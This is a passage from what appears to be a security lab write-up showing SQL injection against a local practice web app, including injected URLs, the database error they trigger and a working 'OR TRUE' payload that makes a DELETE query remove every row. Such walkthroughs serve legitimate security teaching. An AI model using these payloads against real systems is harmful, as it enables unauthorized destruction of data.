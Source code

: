       From the deleted expression shown above we suspect that the php logic
       of the above URL is  associated with a dynamically generated SQL
       `DELETE` statement.
    3. We take this suspicion a step further and insert a tautology into the
       URL:
       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=%27%271%27=%271%27%27&accountId=%27%271%27=%271%27%27
       ```
       The query fails, but we obtain the following result:

       >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR: syntax
       >error at or near "1" LINE 1: DELETE FROM solution WHERE id=''1'='1'' AND
       >accountId=''1'='... ^ in /var/www/fourFours/index.php on line 36
       >
       >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
       >unnamed prepared statement does not exist in /var/www/fourFours/index.php on line 37

       Which confirms our suspicions of the `DELETE` statement to be correct.

       Thus we readjust the query to:
       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=1%20OR%20TRUE&accountId=1%20OR%20TRUE
       ```
       and we obtain the desired results:
       ![alt text](v7e1_4.png)
